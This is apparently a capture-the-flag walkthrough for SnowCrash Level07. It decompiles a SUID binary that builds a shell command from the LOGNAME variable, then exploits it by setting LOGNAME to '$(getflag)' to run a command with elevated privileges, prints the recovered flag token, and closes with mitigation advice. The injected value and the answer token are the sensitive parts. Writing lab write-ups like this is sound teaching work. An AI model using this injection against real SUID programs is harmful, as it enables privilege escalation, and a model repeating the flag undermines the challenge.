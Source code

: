 # SnowCrash Level07 Walkthrough

## Overview

Level07 presents a classic **command injection vulnerability** through environment variable manipulation. The target executable uses user-controlled input from the `LOGNAME` environment variable in an unsafe manner.

## Initial Analysis

In the home directory, we find an executable file named `level07`. Let's examine its structure and permissions:

```bash
level07@SnowCrash:~$ ls -la level07
-rwsr-s---+ 1 flag07 level07 8805 Mar  5  2016 level07
```

The file has the SUID bit set, meaning it will execute with the privileges of the `flag07` user.

## Reverse Engineering

Decompiling the executable reveals the following C code structure:

```c
int32_t main(int argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);

    char* var_1c = nullptr;
    asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
    return system(var_1c);
}
```

## Vulnerability Analysis

The vulnerability lies in this line:

```c
asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
```

The program:

1. Retrieves the `LOGNAME` environment variable
2. Concatenates it directly into a command string without sanitization
3. Passes the resulting string to `system()` for execution

This creates a **command injection** vulnerability where we can control what gets executed.

## Exploitation Strategy

Since the `LOGNAME` environment variable is directly interpolated into the command, we can inject a command substitution using the `$()` syntax.

### Step 1: Set the Malicious Environment Variable

```bash
level07@SnowCrash:~$ export LOGNAME='$(getflag)'
```

This will cause the command to become:

```bash
/bin/echo $(getflag)
```

When executed, the shell will:

1. First execute `getflag` (which should return the flag for this level)
2. Pass the output as an argument to `echo`
3. Display the flag

### Step 2: Execute the Vulnerable Program

```bash
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Success!

The command injection was successful, and we obtained the flag: `fiumuikeil55xe9cu4dood66h`

## Key Learning Points

1. **Environment Variable Injection**: User-controlled environment variables should never be used directly in system commands
2. **Command Substitution**: The `$()` syntax allows executing commands within other commands
3. **SUID Privilege Escalation**: The SUID bit allowed us to execute `getflag` with elevated privileges
4. **Input Sanitization**: Always validate and sanitize user input, including environment variables

## Mitigation

To prevent this vulnerability, the code should:

- Validate the `LOGNAME` variable content
- Use parameterized commands instead of string concatenation
- Escape or sanitize special shell characters
- Consider using `execv()` family functions instead of `system()`

## Next Steps

With the flag `fiumuikeil55xe9cu4dood66h`, we can now proceed to Level08 of the SnowCrash challenge.
